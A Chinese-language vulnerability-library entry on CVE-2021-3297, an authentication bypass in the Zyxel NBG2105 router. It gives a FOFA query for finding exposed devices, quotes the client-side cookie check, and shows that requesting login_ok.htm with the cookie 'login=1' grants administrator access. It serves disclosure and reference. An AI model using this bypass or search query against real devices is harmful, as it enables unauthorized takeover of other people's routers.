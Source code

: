 ```yaml
---
title: Zyxel NBG2105 身份验证绕过 CVE-2021-3297
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - Zyxel
---
```


# Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

> [!NOTE]
>
> Zyxel NBG2105

## FOFA

> [!NOTE]
>
> app="ZyXEL-NBG2105"

## 漏洞复现

登录页面如下

![](/img/20210924015200517700.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](/img/20210924015200789529.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](/img/20210924015201084377.png)

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass